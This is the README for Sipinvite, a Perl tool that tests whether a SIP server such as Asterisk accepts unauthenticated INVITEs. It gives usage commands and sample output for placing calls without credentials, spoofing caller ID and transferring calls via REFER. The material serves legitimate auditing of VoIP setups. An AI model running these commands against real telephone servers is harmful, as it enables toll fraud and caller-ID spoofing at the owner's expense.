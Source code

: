 Sipinvite checks if a server allow us to make calls without authentication. If the SIP server has a bad configuration, it will allows us to make calls to external numbers. Also it can allow us to transfer the call to a second external number.

For example, if your Asterisk server has a bad context configuration, you can accept INVITE request with no authorization required. On this case an attacker can make calls without know no user/pass.

# Features #
Sipinvite allows us to:
  * Test remotely if a SIP server require authentication to make calls.
  * Make calls without auth if the server has a bad configuration.
  * Transfer established calls to a second number (1).
  * Alter the Callerid if the server allows it.
  * Analyze responses using verbose mode.

(1) If you can send an INVITE through a bad configured server and the call sound on the target number, it is possible to send a second message (a REFER on this case) to transfer the call to another number:

```
SipINVITE                     SIP Server                      Phone1              Phone2
         ---> INVITE      ---> 
                                        ---> INVITE      --->
                                        <--- 100 Trying  <---
         <--- 100 Trying  <---
                                        <--- 180 Ringing <---
         <--- 180 Ringing <---
                                        <--- 200 Ok      <---
         <--- 200 Ok      <---
         ---> ACK         ---> 
         <--- 200 Ok      <---
         ---> REFER       ---> 
                                        --->           INVITE                --->
         <--- 202 Accept  <---
                                                              <--->  RTP Session <--->
```

# Usage #
```
$ perl sipinvite.pl 

SipINVITE - by Pepelux <pepeluxx@gmail.com>
---------

Usage: perl sipinvite.pl -h <host> -d <dst_number> [options]
 
== Options ==
-d  <integer>    = Destination number
-u  <string>     = Username to authenticate
-p  <string>     = Password to authenticate
-s  <integer>    = Source number (CallerID) (default: 100)
-r  <integer>    = Remote port (default: 5060)
-t  <integer>    = Transfer call to another number
-ip <string>     = Source IP (by default it is the same as host)
-v               = Verbose (trace information)
```

  * Trying to make a call to exten 100 (without auth)
```
$perl sipinvite.pl -h 192.168.0.1 -d 100
```
  * Trying to make a call to exten 100 (with auth)
```
$perl sipinvite.pl -h 192.168.0.1 -u sipuser -p supersecret -d 100 -r 5080
```
  * Trying to make a call to number 555555555 (without auth) with source number 200
```
$perl sipinvite.pl -h 192.168.0.1 -s 200 -d 555555555 -v
```
  * Trying to make a call to number 555555555 (without auth) and tranfer it to number 666666666
```
$perl sipinvite.pl -h 192.168.0.1 -d 555555555 -t 666666666
```
  * Trying to make a call to number 555555555 (without auth) using callerid 123456789 and tranfer it to number 666666666
```
$perl sipinvite.pl -h 192.168.0.1 -d 555555555 -t 666666666 -s 123456789
```

# Examples #
  * Asterisk server with a context well configured but that allows to make calls without user authentication:
```
$ perl sipinvite.pl -h 192.168.0.55 -d 0034666666666
[+] Sending INVITE 100 => 0034666666666
[-] 404 Not Found
```

On the Asterisk console you can see something similar to:
```
NOTICE[1034]: chan_sip.c:22753 handle_request_invite: Call from '' (X.X.X.X:5070) to extension '0034666666666' rejected because extension not found in context 'default'.
```

  * Asterisk server with a context bad configured and that also allows to make calls without user authentication:
```
$ perl sipinvite.pl -h 192.168.0.55 -d 0034666666666
[+] Sending INVITE 100 => 0034666666666
[-] 100 Trying
[-] 183 Session Progress
[-] 200 OK
```

On the Asterisk console you can see something similar to:
```
  == Using SIP RTP CoS mark 5
    -- Executing [0034666666666@default:1] Dial("SIP/192.160.0.55-00000001", "SIP/trunk/0034666666666,30") in new stack
  == Using SIP RTP CoS mark 5
    -- Called SIP/trunk/0034666666666
```

Trying a transfer in the same vulnerable server:
```
$ perl sipinvite.pl -h 192.168.0.55 -d 0034666666666 -t 0034777777777
[+] Sending INVITE 100 => 0034666666666
[-] 100 Trying
[-] 183 Session Progress
[-] 200 OK
[+] Sending ACK
[+] Sending REFER 100 => 0034777777777
[-] 202 Accepted
```

On the Asterisk console you can see something similar to:
```
  == Using SIP RTP CoS mark 5
    -- Executing [0034666666666@default:1] Dial("SIP/192.168.0.55-00000000", "SIP/trunk/0034666666666,30") in new stack
  == Using SIP RTP CoS mark 5
    -- Called SIP/trunk/0034666666666
    -- SIP/trunk-00000001 is making progress passing it to SIP/192.168.0.55-00000000
    -- SIP/trunk-00000001 answered SIP/192.168.0.55-00000000
    -- Remotely bridging SIP/192.168.0.55-00000000 and SIP/trunk-00000001
    -- Executing [0034777777777@default:1] Dial("SIP/trunk-00000001", "SIP/trunk/0034777777777,30") in new stack
  == Using SIP RTP CoS mark 5
    -- Called SIP/trunk/0034777777777
```
